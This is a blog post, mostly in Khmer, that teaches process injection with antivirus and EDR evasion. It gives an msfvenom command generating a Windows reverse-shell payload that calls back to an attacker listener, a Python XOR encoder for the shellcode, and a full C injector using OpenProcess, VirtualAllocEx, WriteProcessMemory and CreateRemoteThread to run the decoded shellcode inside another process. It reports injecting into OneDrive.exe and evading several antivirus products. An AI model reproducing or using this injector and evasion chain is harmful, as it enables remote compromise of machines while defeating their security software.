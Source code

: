 ```yaml
---
title: "Process Injection - Bypass AV/EDR with XOR - 0x01"
date: 2023-06-21T21:01:06+07:00
description: ចាក់បញ្ជូល Shellcode និង Bypass AV/EDR ដោយប្រើប្រាស់ XOR
draft: false
hideToc: false
enableToc: true
enableTocContent: false
author: thik
authorEmoji: 🐱
tags: 
- c-shellcode
- bypass
- xor
categories:
- Process Injection
series:
- WinExE
image: images/feature2/bam.png
---
```


#### Summary

នៅក្នុងអត្ថបទនេះយើងនឹងធ្វើការបង្កើត Shellcode តាមរយៈវិធីសាស្ត្រ [Process Injection](https://th1k.github.io/en/posts/process-injection-without-write-exec-permission/) ដោយភ្ជាប់ជាមួយនិងការដាក់នូវកូនសោរ XOR ក្នុងការធ្វើកូដនីយកម្មដើម្បីបញ្ចៀសពីការរកឃើញរបស់កម្មវិធីកំចាត់មេរោគ ។

#### Shellcode

ខាងក្រោមជាដំណើរការបង្កើត Payload ដោយប្រើប្រាស់ Shellcode ជាភាសារ C គោលដៅនៅលើម៉ាស៊ីន 64 bit ។

{{< highlight zsh "linenos=table" >}}
msfvenom -p windows/x64/shell_reverse_tcp lhost=192.168.60.136 lport=4433 -f c
{{< / highlight >}}

#### XOR Shellcode

បន្ទាប់មកយើងនឹងធ្វើការ XOR ទៅលើកូដនោះដោយប្រើប្រាស់ Python Script ដូចខាងក្រោម៖

{{< highlight python3 "linenos=table" >}}
raw_shellcode = "my shellcode \xaa\xda\xca\[...]\xbe\x14\x49"
enc_shellcode = []
print ("[+] Shellcode is encoding")
for opcode in raw_shellcode:
        enc_opcode = (ord(opcode) ^ 0x41)
        enc_shellcode.append(enc_opcode)

print ("========================Shellcode========================\n\n")
print ("".join(["\\x{0}".format(hex(abs(i)).replace("0x", "")) for i in enc_shellcode]))
print ("\n\n========================Shellcode========================")
{{< / highlight >}}

ក្រោយពីធ្វើកូដនីយកម្មរួចមក យើងនឹងទទួលបានកូដថ្មីមួយផ្សេងទៀត ចម្លងវាទុកដើម្បីធ្វើកិច្ចការបន្ត ។

#### WINAPIs

ខ្លីៗអំពីការ Bypass ដោយប្រើ WinAIPs

##### OpenProcess
{{< highlight cpp "linenos=table" >}}
HANDLE OpenProcess(
  DWORD dwDesiredAccess,
  BOOL  bInheritHandle,
  DWORD dwProcessId
);
{{< / highlight >}}

<b>OpenProcess</b> ប្រើដើម្បីបើក Process ដោយផ្ដល់តម្លៃតាមរយៈ PID នៃ Process របស់វា ។ ដោយសារតែគោលបំណងរបស់ Process Injection គឺជាការបង្កើតនូវចន្លោះ Allocation ថ្មីមួយសម្រាប់ Shellcode នៅក្នុង Local Process បន្ទាប់មកវានឹងធ្វើការសរសេរបញ្ចូលនូវ Shellcode នោះចូលទៅក្នុងចន្លោះ Allocation ដែលបានបង្កើតរួចហើយទើបធ្វើការបើកដំណើរការ ។ ដូចនេះមុននឹងយើងធ្វើការបង្កើត Allocation ថ្មីមួយចូលទៅក្នុង Memory យើងត្រូវតែបង្កើត Process វាជាមុន ។

<b>ចំណាំ៖</b> យើងត្រូវធ្វើការបិទ Opened handle តាមរយៈ CloseHandle()

##### VirtualAllocEx
{{< highlight cpp "linenos=table" >}}
LPVOID VirtualAllocEx(
  HANDLE hProcess,
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flAllocationType,
  DWORD  flProtect
);
{{< / highlight >}}

យើងប្រើ <b>VirtualAllocEx</b> ដើម្បីធ្វើការ Allocate ចន្លោះនៃ Memory សម្រាប់ Shellcode របស់យើងនៅក្នុង Process ផ្សេង ។ ដោយឡែកសម្រាប់ VirtualAlloc យើងអាចប្រើប្រាស់វាចំពោះតែចន្លោះនៃ Memory ក្នុង Process ផ្ទាល់ខ្លួនរបស់វាប៉ុណ្ណោះ (Current Process) ។

##### WriteProcessMemory
{{< highlight cpp "linenos=table" >}}
BOOL WriteProcessMemory(
  HANDLE  hProcess,
  LPVOID  lpBaseAddress,
  LPCVOID lpBuffer,
  SIZE_T  nSize,
  SIZE_T  *lpNumberOfBytesWritten
);
{{< / highlight >}}

យើងប្រើប្រាស់ <b>WriteProcessMemory</b> សម្រាប់ធ្វើការសរសេរបញ្ជូលនូវ Shellcode ចូលទៅកាន់ Allocation ថ្មីមួយដែលបានមកពីការបង្កើត Process ផ្សេងតាមរយៈ VirtualAllocEx ខាងលើ។

##### VirtualProtectEx
{{< highlight cpp "linenos=table" >}}
BOOL VirtualProtectEx(
  HANDLE hProcess,
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flNewProtect,
  PDWORD lpflOldProtect
);
{{< / highlight >}}

យើងប្រើ <b>VirtualProtectEx</b> ដើម្បីធ្វើការកែប្រែ Protection Permission ។

##### CreateRemoteThread
{{< highlight cpp "linenos=table" >}}
HANDLE CreateRemoteThread(
  HANDLE                 hProcess,
  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  SIZE_T                 dwStackSize,
  LPTHREAD_START_ROUTINE lpStartAddress,
  LPVOID                 lpParameter,
  DWORD                  dwCreationFlags,
  LPDWORD                lpThreadId
);
{{< / highlight >}}

យើងប្រើ CreateRemoteThread ដើម្បីបង្កើត Thread ដែលបានដំណើរនៅក្នុងចន្លោះ Virtual Address នៃ Process ផ្សេងទៀត ។ ដោយឡែកសម្រាប់ CreateThread យើងអាចប្រើប្រាស់វាចំពោះតែការបង្កើត Thread ក្នុង Process ផ្ទាល់ខ្លួនរបស់វាប៉ុណ្ណោះ (Current Process) ។

##### PWN The Shellcode

ខាងក្រោមនេះជាការបង្កើត Binary File ក្នុងការចាក់បញ្ជូល Shellcode ទៅក្នុង Process ដទៃទៀត ហើយមានលទ្ធភាពក្នុងការ Bypass កម្មវិធីកំចាត់មេរោគធំៗមួយចំនួនផងដែរ ។

ខាងក្រោមជាការប្រើប្រាស់ opcode ដើម្បី Decode ទៅលើ Shellcode opcode ។

{{< highlight cpp "linenos=table" >}}
#include <stdio.h>
#include <Windows.h>

int main(int argc, char* argv[])
{
    unsigned char shellcode[] = "\x98\xaa\xda\xca\[...]\xbe\x14\x49";

    HANDLE processHandle;
    HANDLE remoteThread;
    PVOID remoteBuffer;
    DWORD oldPerms;
    DWORD PID = 16772; //Change it to target PID
    printf("Injecting to PID: %i", PID);
    processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);
    remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READ);

    int i;
    int n = 0;
    for (i = 0; i <= sizeof(shellcode); i++) {
        char dec_opcode = shellcode[i] ^ 0x41;
        if (WriteProcessMemory(processHandle, (char*)remoteBuffer + n, &dec_opcode, 1, NULL)) {
            n++;

        }
    }
    VirtualProtectEx(processHandle, (LPVOID)sizeof(processHandle), sizeof(shellcode), PAGE_READONLY, &oldPerms);
    remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
    CloseHandle(processHandle);

    return 0;
}
{{< / highlight >}}

![Raw Code Explain](/en/posts/img/2023/06/process-injection-xor-0x01/opcode-decrypt-shellcode.png)

នៅក្នុង For Loop Function យើងបានធ្វើការ Decoded Shellcode ជាមួយនិងការសរសេរបញ្ជូល opcode ចូលទៅក្នុង Memory ភ្លាមៗ ។

តស់ចាប់ផ្ដើម Compile និងសាកល្បងដំណើរការ ។

![Process Injection](/en/posts/img/2023/06/process-injection-xor-0x01/process-injection.png)
![C2 Reverse Shell](/en/posts/img/2023/06/process-injection-xor-0x01/cbs-reverse-shell.png)

ការចាក់បញ្ជូលទទួលបានជោគជ័យ ដោយធ្វើការចាក់បញ្ជូលក្នុង Process របស់កម្មវិធី OneDrive.exe ដែលមានលេខ PID 408 ។

##### Scan Result

ខាងក្រោមជាលទ្ធផលធ្វើតេស្តនៅក្នុងការស្កេនលើកម្មវិធីកំចាត់មេរោគល្បីៗ ។

![AV Scan Results](/en/posts/img/2023/06/process-injection-xor-0x01/av-scan-results.png)

<b>តំណរភ្ជាប់៖</b> [ANTISCAN.ME](https://antiscan.me/scan/new/result?id=CG8nyWqap8Y9)